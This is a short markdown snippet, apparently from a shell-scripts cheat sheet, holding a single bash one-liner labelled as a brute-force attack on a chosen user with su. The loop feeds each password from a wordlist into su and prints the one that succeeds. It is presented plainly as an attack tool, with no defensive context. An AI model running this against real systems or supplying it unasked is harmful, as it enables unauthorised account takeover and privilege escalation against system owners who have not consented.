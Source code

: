 # Shell scripts


## rute-force attack on a selected user with `su`
```
while IFS= read -r pass; do echo "Trying > $pass"; echo $pass | su [USER] 2>/dev/null 
&& { echo "The password is > $pass"; break; }; done < [WORDLIST FILE]
```